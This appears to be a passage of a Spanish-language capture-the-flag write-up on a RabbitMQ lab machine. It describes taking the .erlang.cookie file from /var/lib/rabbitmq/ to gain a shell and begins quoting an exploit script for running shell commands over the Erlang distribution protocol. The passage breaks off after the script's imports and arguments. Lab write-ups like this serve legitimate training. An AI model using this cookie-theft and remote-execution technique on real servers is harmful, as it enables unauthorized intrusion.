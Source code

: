 <figure><img src="../.gitbook/assets/RabbitStore/etcpass.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.wiki/en/network-services-pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd.html#erlang-cookie-rce" %}

Nos dirigimos a `/var/lib/rabbitmq/` para recuperar la cookie `.erlang.cookie`, la cual nos ayudará a obtener una `shell` para `rabbitmq`. Además, con el siguiente código que presentamos a continuación, podremos conseguir la siguiente shell que lo  conseguimos del siguiente repositorio.

{% embed url="https://github.com/gteissier/erl-matter" %}


```

#!/usr/bin/env python2

from struct import pack, unpack
from cStringIO import StringIO
from socket import socket, AF_INET, SOCK_STREAM, SHUT_RDWR
from hashlib import md5
from binascii import hexlify, unhexlify
from random import choice
from string import ascii_uppercase
import sys
import argparse
import erlang as erl

def rand_id(n=6):
  return ''.join([choice(ascii_uppercase) for c in range(n)]) + '@nowhere'

parser = argparse.ArgumentParser(description='Execute shell command through Erlang distribution protocol')

parser.add_argument('target', action='store', type=str, help='Erlang node address or FQDN')
parser.add_argument('port', action='store', type=int, help='Erlang node TCP port')
parser.add_argument('cookie', action='store', type=str, help='Erlang cookie')
```